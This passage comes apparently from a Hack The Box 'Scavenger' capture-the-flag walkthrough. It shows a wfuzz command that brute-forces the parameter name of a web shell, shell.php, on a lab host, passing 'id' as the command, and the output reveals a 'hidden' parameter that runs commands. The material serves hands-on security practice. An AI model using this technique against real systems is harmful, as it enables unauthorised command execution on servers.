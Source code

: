 Indeed, but there\'s no output. Perhaps we need to brute force the parameter?

```
# wfuzz -w /usr/share/seclists/Discovery/Web-Content/burp-parameter-names.txt -t 20 --hh 0 http://sec03.rentahacker.htb/shell.php?FUZZ=id
********************************************************
* Wfuzz 2.2.11 - The Web Fuzzer                        *
********************************************************

Target: http://sec03.rentahacker.htb/shell.php?FUZZ=id
Total requests: 2588

==================================================================
ID      Response   Lines      Word         Chars          Payload    
==================================================================

000197:  C=200      1 L        3 W           61 Ch        "hidden"

Total time: 30.90042
Processed Requests: 2588
Filtered Requests: 2587
Requests/sec.: 83.75290
```

Bam. There we go.

<a class="image-popup">
![36f4bf1d.png](/assets/images/posts/scavenger-htb-walkthrough/36f4bf1d.png)
</a>
